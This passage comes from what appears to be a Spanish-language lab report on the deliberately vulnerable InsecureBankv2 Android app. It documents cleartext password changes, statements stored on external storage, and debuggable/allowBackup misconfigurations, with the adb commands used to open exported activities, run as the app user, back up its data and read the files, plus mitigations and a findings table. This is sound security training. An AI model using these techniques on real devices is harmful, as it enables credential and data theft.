- La petición se realiza por `HTTP`, sin cifrado `TLS`.
- Se envía el usuario afectado: `username=dinesh`.
- Se envía la nueva contraseña en el cuerpo de la petición: `newpassword=Pass123%40`.
- El valor `Pass123%40` está codificado con URL encoding y corresponde a: `Pass123@`.
- Nota: El encabezado muestra `Host: 127.0.0.1:1337` porque la app cree que se conecta a `127.0.0.1:1337` dentro de Genymotion. Gracias a `adb reverse`, esa conexión llega realmente al backend en Kali en `127.0.0.1:8888`.


**Vulnerabilidad:** Cambio de contraseña realizado por `HTTP` sin cifrado y basado en parámetros enviados desde el cliente.

**Impacto:** Un atacante en posición de interceptar el tráfico podría capturar la nueva contraseña del usuario. Además, el flujo envía únicamente `username` y `newpassword`, por lo que si el backend no valida una sesión autenticada, contraseña actual o autorización robusta, el cambio de contraseña puede ser manipulado o abusado. El riesgo aumenta porque la Activity `ChangePassword` está exportada y puede abrirse directamente con un extra `uname`.

**Mitigación:**
- Usar `HTTPS/TLS` obligatorio para todos los endpoints.
- Bloquear tráfico `HTTP` en claro mediante `Network Security Config`.
- Validar certificados correctamente.
- Exigir sesión autenticada en backend antes de cambiar contraseña.
- Solicitar contraseña actual o reautenticación para cambios sensibles.
- Validar la política de contraseña también en el backend, no sólo en el cliente.
- Marcar `ChangePassword` como no exportada si solo debe usarse internamente.


## **6.14 Extractos en almacenamiento externo + WebView**

El análisis estático mostró que `DoTransfer` escribe los extractos de transferencias en almacenamiento externo:
```
/sdcard/Statements_<usuario>.html
```

Además `ViewStatement` carga ese fichero local en un `WebView` con JavaScript habilitado.


**Generación del extracto:** Hacemos una transferencia en la interfaz de la app:



**Después comprobamos si se ha generado el fichero en almacenamiento externo:**
```
└─$ adb -s 127.0.0.1:6555 shell ls -la /sdcard/ | grep Statements

-rw-rw----  1 root sdcard_rw   61 2026-05-10 05:56 Statements_dinesh.html
```
donde:
- Se confirma que la app ha creado el fichero `Statements_dinesh.html`.
- El fichero se encuentra en `/sdcard/`, es decir, en almacenamiento externo.
- El nombre del fichero incluye el usuario `dinesh`.
  

**Lectura del fichero generado:**
```
└─$ adb -s 127.0.0.1:6555 shell cat /sdcard/Statements_*.html


Message:Success From:888888888 To:666666666 Amount:1234
<hr>                                                                                                                                                      
```
donde:
- Se almacenan datos financieros de la transferencia.
- Aparecen la cuenta origen, la cuenta destino y el importe.
- El contenido se guarda en formato `HTML` simple.
- El fichero queda accesible en almacenamiento externo.

Esto confirma que información sensible de operaciones bancarias se escribe fuera del almacenamiento interno privado de la aplicación.


**Carga del extracto en WebView:**
```
└─$ adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.ViewStatement \
  --es uname dinesh
Starting: Intent { cmp=com.android.insecurebankv2/.ViewStatement (has extras) }
```

En la interfaz de la app vemos como los datos de la transferencia se renderizan en `WebView`: 
  


**Vulnerabilidad:** Almacenamiento inseguro de extractos financieros en almacenamiento externo y carga posterior del contenido local en un `WebView`.

**Impacto:** Los datos financieros de la transferencia quedan almacenados en `/sdcard`, fuera del almacenamiento interno privado de la app. Esto puede permitir que otros procesos, usuarios con acceso al dispositivo o herramientas de extracción accedan al historial de transferencias. Además, al cargarse como `HTML` en un `WebView`, si el fichero fuese modificado, la app podría renderizar contenido manipulado. El riesgo aumenta porque `ViewStatement` está exportada y acepta el usuario mediante el extra `uname`.

**Mitigación:** Guardar los extractos en almacenamiento interno privado, no en `/sdcard` . Evitar almacenar datos financieros en `HTML` plano. Si se requiere persistencia, cifrar los datos en reposo con claves protegidas mediante `Android Keystore`. Además, evitar el uso de `WebView` para mostrar extractos simples. Usar vistas nativas. Si el `WebView`  es imprescindible, deshabilitar JavaScript, restringir el acceso a ficheros locales y validar estrictamente qué contenido puede cargarse.


------


## **6.15 `allowBackup` y `debuggable` habilitados**

**El `AndroidManifest.xml` confirma que la aplicación tiene habilitadas dos opciones inseguras:**
```
android:debuggable="true"
android:allowBackup="true"
```

**Comprobación de `debuggable`:** Una aplicación marcada como `debuggable="true"` permite usar `run-as` para acceder al contexto interno de la app, siempre que el dispositivo permita depuración:
```
└─$ adb -s 127.0.0.1:6555 shell run-as com.android.insecurebankv2 id

uid=10067(u0_a67) gid=10067(u0_a67) groups=10067(u0_a67),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc)
```
donde:
- Confirmamos que podemos ejecutar comandos como el usuario de la aplicación.
- Esto facilita acceder a ficheros internos de la app, como `shared_prefs`, `databases` o `cache`.
- Anteriormente ya comprobamos que podíamos leer ficheros como: `/data/data/com.android.insecurebankv2/shared_prefs/mySharedPreferences.xml` donde encontramos credenciales almacenadas.


**Comprobación de `allowBackup`:** Como en el Manifest estaba especificado `android:allowBackup="true"`, esto permite solicitar un backup de los datos de la aplicación mediante adb backup.
```
adb -s 127.0.0.1:6555 backup -f insecurebankv2.ab com.android.insecurebankv2
```

**Ahora en el dispositivo aparece una pantalla solicitando autorización para realizar el backup:**  
  
donde:
- Android solicita permiso al usuario para generar un backup completo de los datos de la app.
- La aparición de esta pantalla confirma que la app permite backup mediante ADB.
- Si el usuario acepta, se genera el fichero `insecurebankv2.ab` en el equipo host.
- Ese backup puede contener datos sensibles de la aplicación, como preferencias, bases de datos o ficheros internos, dependiendo de la versión de Android y de las reglas de backup.


**Vulnerabilidad:** Configuración insegura de la aplicación: `android:debuggable="true"` y `android:allowBackup="true"` habilitados.

**Impacto:**
- `debuggable="true"` facilita el análisis, depuración y acceso local a datos internos de la aplicación mediante `run-as`.
- `allowBackup="true"` permite generar copias de seguridad de los datos de la app, lo que puede facilitar la extracción de información sensible si el atacante tiene acceso físico al dispositivo, ADB habilitado o consigue que el usuario acepte el backup.

**Mitigación:** En una build de producción, deshabilitar depuración y backup. Si el backup es necesario, definir reglas específicas de backup para excluir ficheros sensibles como `SharedPreferences`, bases de datos, tokens, credenciales y extractos financieros. Además, nunca almacenar contraseñas reutilizables en el cliente.


# **7. Conclusiones**

El análisis de `InsecureBankv2` confirma que la aplicación presenta una superficie de ataque amplia y varios fallos graves de seguridad. El problema principal es que la app delega demasiados controles en el cliente Android y no aplica una separación robusta entre interfaz, autenticación, autorización y protección de datos.

El análisis estático permitió identificar componentes inseguros en el `AndroidManifest.xml`, uso de `HTTP`, almacenamiento local de credenciales, criptografía débil, logs sensibles y permisos peligrosos. Posteriormente, el análisis dinámico confirmó el impacto real de estos hallazgos mediante pruebas con `adb`, `logcat`, `tcpdump`, `run-as` y consultas al `ContentProvider`.

**Las vulnerabilidades más relevantes se resumen en la siguiente tabla:**


https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/M8T4.md#hallazgo-f-06---endpoint-de-desarrollo-devlogin-activado-por-usuario-devadmin

| Severidad | Vulnerabilidad                                 | Evidencia                                                                          | Impacto                                         | Análisis estático                                                                               | Análisis dinámico                                                                                       |
| --------- | ---------------------------------------------- | ---------------------------------------------------------------------------------- | ----------------------------------------------- | ----------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| Crítica   | Backdoor lógico `devadmin` → `/devlogin`       | `DoLogin` redirige `devadmin` a `/devlogin`                                        | Bypass completo de autenticación                | [DoLogin.java / `/devlogin`](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/M8T4.md#hallazgo-f-06---endpoint-de-desarrollo-devlogin-activado-por-usuario-devadmin)                                | [ Backdoor `devadmin`](github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-8-reversing-sistemas-operativos-moviles/4-M8T4-analisis-en-aplicaciones-android-II/M8T4.md#64-configuraci%C3%B3n-final-de-la-app)                                |
| Crítica   | `BroadcastReceiver` exportado con fuga por SMS | `MyBroadCastReceiver` exportado y uso de `sendTextMessage`                         | Envío de contraseña antigua y nueva por SMS     | [Manifest + MyBroadCastReceiver.java](#analisis-estatico-mybroadcastreceiverjavajadx)           | [6.9 BroadcastReceiver exportado](#69-broadcastreceiver-exportado)                                      |
| Alta      | Activities sensibles exportadas                | `PostLogin`, `DoTransfer`, `ViewStatement`, `ChangePassword` con `exported="true"` | Acceso directo a pantallas internas sin login   | [Análisis del Manifest](#analisis-del-androidmanifestxml)                                       | [Bypass por Activities exportadas](#bypass-por-activities-exportadas)                                   |
| Alta      | `ContentProvider` exportado                    | `TrackUserContentProvider` con `exported="true"`                                   | Lectura/modificación de datos internos          | [TrackUserContentProvider.java + Manifest](#analisis-estatico-trackusercontentproviderjavajadx) | [6.7 ContentProvider exportado](#67-contentprovider-exportado)                                          |
| Alta      | Comunicación HTTP en claro                     | Captura de `POST /login`, `/dotransfer`, `/changepassword`                         | Exposición de credenciales y datos financieros  | [DoLogin / DoTransfer / ChangePassword](#analisis-estatico-comunicaciones-http)                 | [6.5 Tráfico HTTP en claro](#65-trafico-http-en-claro)                                                  |
| Alta      | Credenciales en `SharedPreferences`            | `EncryptedUsername` y `superSecurePassword`                                        | Recuperación de usuario y contraseña            | [DoLogin.java + CryptoClass.java](#analisis-estatico-almacenamiento-local-de-credenciales)      | [6.6 Almacenamiento local de credenciales](#66-almacenamiento-local-de-credenciales)                    |
| Alta      | Clave AES hardcodeada                          | `CryptoClass` contiene `This is the super secret key 123`                          | Descifrado de la contraseña almacenada          | [CryptoClass.java](#analisis-estatico-cryptoclassjavajadx)                                      | [6.6 Almacenamiento local de credenciales](#66-almacenamiento-local-de-credenciales)                    |
| Alta      | Cambio de contraseña inseguro                  | `username` y `newpassword` enviados por HTTP                                       | Captura o manipulación del cambio de contraseña | [ChangePassword.java](#analisis-estatico-changepasswordjavajadx)                                | [6.10 Cambio de contraseña inseguro](#610-cambio-de-contrasena-inseguro)                                |
| Alta      | Extractos en almacenamiento externo            | `/sdcard/Statements_dinesh.html`                                                   | Exposición de datos financieros                 | [DoTransfer.java + ViewStatement.java](#analisis-estatico-extractos-en-almacenamiento-externo)  | [6.11 Extractos en almacenamiento externo + WebView](#611-extractos-en-almacenamiento-externo--webview) |
| Alta      | WebView con contenido local y JavaScript       | `ViewStatement` carga HTML local en WebView                                        | Riesgo de manipulación de contenido local       | [ViewStatement.java + MyWebViewClient.java](#analisis-estatico-webview)                         | [6.11 Extractos en almacenamiento externo + WebView](#611-extractos-en-almacenamiento-externo--webview) |
| Alta      | Logs con credenciales                          | `Successful Login: account=dinesh:Dinesh@123$`                                     | Exposición de credenciales en `logcat`          | [DoLogin.java / logs sensibles](#analisis-estatico-logs-sensibles)                              | [6.8 Logs sensibles](#68-logs-sensibles)                                                                |
| Alta      | `allowBackup="true"` con datos sensibles       | Backup habilitado en Manifest                                                      | Posible extracción de datos locales             | [Análisis del Manifest](#analisis-del-androidmanifestxml)                                       | [6.12 `allowBackup` y `debuggable` habilitados](#612-allowbackup-y-debuggable-habilitados)              |
| Alta      | `debuggable="true"`                            | Manifest y uso de `run-as`                                                         | Facilita inspección y extracción de datos       | [BuildConfig + Manifest](#analisis-estatico-buildconfigjavajadx)                                | [6.12 `allowBackup` y `debuggable` habilitados](#612-allowbackup-y-debuggable-habilitados)              |


-----
En conjunto, se comprueba que un atacante con acceso al dispositivo, a la red o al entorno de ejecución podría obtener credenciales, acceder a funcionalidades internas, consultar datos locales, manipular flujos de la app o capturar información financiera.

Las mitigaciones principales son: marcar como no exportados los componentes internos, eliminar `endpoints` de desarrollo, usar `HTTPS/TLS` en todos los `endpoints`, no almacenar contraseñas reutilizables, proteger secretos con `Android Keystore`, validar autorización en `backend`, eliminar logs sensibles, evitar almacenamiento externo para datos financieros y desactivar `debuggable` y `allowBackup` en builds de producción.

La conclusión general es que **InsecureBankv2** cumple su objetivo como aplicación vulnerable de laboratorio: concentra fallos típicos de seguridad Android y permite demostrar cómo un análisis estático bien dirigido puede guiar pruebas dinámicas efectivas para validar el impacto real de cada vulnerabilidad.